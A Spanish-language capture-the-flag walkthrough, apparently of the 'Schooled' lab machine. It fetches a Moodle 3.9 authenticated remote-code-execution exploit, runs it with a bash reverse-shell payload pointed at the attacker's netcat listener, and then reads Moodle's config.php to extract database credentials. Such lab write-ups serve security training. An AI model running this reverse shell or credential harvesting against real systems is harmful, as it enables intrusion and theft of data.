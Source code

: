 Nos `descargamos` el `exploit`

```
# searchsploit -m php/webapps/50180.py
  Exploit: Moodle 3.9 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50180
     Path: /usr/share/exploitdb/exploits/php/webapps/50180.py
    Codes: N/A
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (24652)
Copied to: /home/justice-reaper/Desktop/Schooled/scripts/moodlescan/50180.py
```

Nos `ponemos` en `escucha` con `netcat`

```
# nc -nlvp 9001
```

`Ejecutamos` el `exploit` 

```
# python3 50180.py --cookie o9el4nun89bbelqmt0o8n39l3o -c 'bash -c "bash -i >& /dev/tcp/10.10.16.23/9001 0>&1"' http://moodle.schooled.htb/moodle
```

`Recibimos` la `shell`

```
# rlwrap nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.181.78] 53687
bash: cannot set terminal process group (1242): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ whoami
www
```
## Privilege Escalation

`Moodle` tiene un `archivo` de `configuración` con las `credenciales` de la `base` de `datos`, así que buscamos el archivo

```
[www@Schooled /]$ find / -name "config.php" 2>/dev/null | grep "moodle/config.php"

/usr/local/www/apache24/data/moodle/config.php
```

`Obtenemos` las `credenciales` de la `base` de `datos`

```
[www@Schooled /]$ [www@Schooled /]$ cat /usr/local/www/apache24/data/moodle/config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
```